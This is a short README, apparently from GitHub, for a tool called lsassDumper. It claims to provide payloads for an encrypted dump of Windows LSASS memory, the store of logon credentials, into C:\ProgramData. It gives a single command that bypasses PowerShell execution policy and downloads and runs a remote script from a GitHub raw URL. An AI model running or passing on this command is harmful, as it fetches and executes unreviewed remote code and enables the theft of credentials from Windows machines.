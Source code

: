 # lsassDumper

This project provide the necessary payloads to perform an encrypted dump of LSASS in C:\ProgramData

Execute :

`powershell -ep bypass -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj.txt) ; start-sleep 44"`
